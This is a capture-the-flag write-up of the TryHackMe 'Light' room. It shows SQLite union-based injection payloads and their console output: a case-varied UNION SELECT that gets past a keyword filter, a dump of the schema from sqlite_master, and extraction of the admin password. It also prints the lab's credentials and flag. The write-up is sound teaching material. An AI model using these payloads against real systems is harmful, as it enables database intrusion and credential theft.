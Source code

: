 ```yaml
---
title: "TryHackMe - Light"
date: 2025-02-04 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [sql, sql incjection, sqlite, payloads, union-based injection]

---
```


# Introduction

In [this CTF](https://tryhackme.com/room/lightroom), I do not need to use Nmap scanning because the creator clearly states that I can connect to the database via netcat on port 1337.


```console
$ nc 10.10.10.30 1337     
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: 
```

I notice that the login is getting stuck in a loop. Knowing the CTF description, I understand that this challenge is related to databases. I decide to attempt an SQL injection using [known payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). I'll start with the simplest payload:  ' .

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: 
```

I encountered an error about an unrecognized token. I try using additional methods from the list to extract anything from the database. I decide to use various UNION SELECT techniques, encountering various errors thrown by the database, such as:
```console
Ahh there is a word in there I don't like :(
```
or
```console
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

The first significant change I encountered was during the following variation of the UNION SELECT query:

```console
Please enter your username: ' Union Select 1 '
Password: 1
Please enter your username: 
``` 

Knowing the working union-based payload, I can proceed with further exploration of the database. After countless attempts, I finally manage to determine the version of the database using the command:

```console
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
Please enter your username: 
```
Knowing the database version, I can focus on existing payloads for SQLite 3.31.1. I search the web for this purpose and come across this list: [SQLite Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).

I use the following query to determine the structure of the database:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: 
```

With this information, I can proceed to create a query that will allow me to extract the **username** and **password** from the database. I do this using the following queries:


```console
lease enter your username: ' Union Select group_concat(username) FROM admintable '
Password: TryHackMeAdmin,flag
Please enter your username: ' Union Select group_concat(password) FROM admintable '
Password: mamZtAuMlrsEy5bp6q17,THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```

This way, I obtained the username, password, and the flag needed to complete the CTF.
